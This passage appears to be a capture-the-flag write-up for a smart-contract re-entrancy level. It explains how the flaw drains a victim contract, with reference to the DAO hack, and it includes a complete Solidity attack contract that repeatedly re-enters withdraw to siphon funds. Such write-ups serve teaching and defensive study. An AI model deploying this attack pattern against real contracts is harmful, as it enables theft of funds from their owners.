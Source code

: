 ## 10. Re-entrancy
This is the same exploit that led to the [DAO hack](https://www.coindesk.com/learn/2016/06/25/understanding-the-dao-attack/). Due to the ordering of the functions in the victim contract (sending funds before updating internal state), the malicious contract is able to keep calling the `withdraw` function as the internal state is only updated after the transfer is done.

When `msg.sender.call{value:_amount}("")` is processed, the control is handed back to the `receive` function of the malicious contract which then calls the `withdraw` function again. This is how the malicious contract is able to siphon all the funds.

There are 2 things to note:

1. The gas limited specified when calling the `maliciousWithdraw` function will determine how many times the reentracy call can happen.

2. You may need to manually increase the gas limit in the metamask prompt otherwise the reentrancy calls will not have enough gas to succeed.
```
pragma solidity ^0.8.0;

contract AttackReentrancy {
    address payable victim;
    uint256 targetAmount = 0.001 ether; // This is the amount that the victim contract was seeded with.

    constructor(address payable _victim) public {
        victim = _victim;
    }

    // Don't forget to specify 1000000000000000 wei if calling this via remix!
    function donate() public payable {
        require(msg.value == targetAmount, "Please call donate with 0.001 ETH.");
        bytes memory payload = abi.encodeWithSignature("donate(address)", address(this));
        (bool success, ) = victim.call{value: targetAmount}(payload);
        require(success, "Transaction call using encodeWithSignature is successful");
    }

    function maliciousWithdraw() public {
        bytes memory payload = abi.encodeWithSignature("withdraw(uint256)", targetAmount);
        victim.call(payload);
    }

    receive() external payable {
        // This attack contract has a malicious receive fallback function
        // that calls maliciousWithdraw again which calls withdraw!
        // This is how the reentrancy attack works.
        uint256 balance = victim.balance;
        if (balance >= targetAmount) {
            maliciousWithdraw();
        }
    }

    function withdraw() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```
